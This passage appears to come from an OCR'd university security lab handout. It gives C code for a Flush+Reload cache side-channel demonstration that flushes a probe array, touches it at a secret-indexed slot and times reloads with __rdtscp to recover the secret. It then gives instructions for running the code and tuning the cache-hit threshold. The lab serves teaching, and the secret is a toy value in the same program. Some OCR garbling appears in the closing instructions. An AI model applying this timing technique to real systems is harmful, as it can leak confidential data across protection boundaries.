 

void flushSideChannel()
{
int i;

```
// Write to array to bring it to RAM to prevent Copy-on-write
for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
```
// Flush the values of the array from cache
for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
temp = array[secret*4096 + DELTA];
}

void reloadSideChannel()
{
int junk=0;
register uint64_t time1, time2;
volatile uint8_t *addr;
int i;
for(i = 0; i < 256; i++){
addr = &array[i*4096 + DELTA];
time1 = __rdtscp(&junk);
junk = *addr;
time2 = __rdtscp(&junk) - time1;
if (time2 <= CACHE_HIT_THRESHOLD){
printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
printf("The Secret = %d.\n",i);
}
}
}

int main(int argc, const char **argv)
{
flushSideChannel();
victim();
reloadSideChannel();
return (0);
}

Please compile the program usinggccand run it (see Section 2 for compilation instruction). It should
be noted that the technique is not 100 percent accurate, and you may not be able to observe the expected
output all the time. Run the program for at least 20 times, and count how many times you will get the secret
correctly. You can also adjust the thresholdCACHEHITTHRESHOLDto the one derived from Task 1 (
is used in this code).


## 4 Task 3: Out-of-Order Execution and Branch Prediction
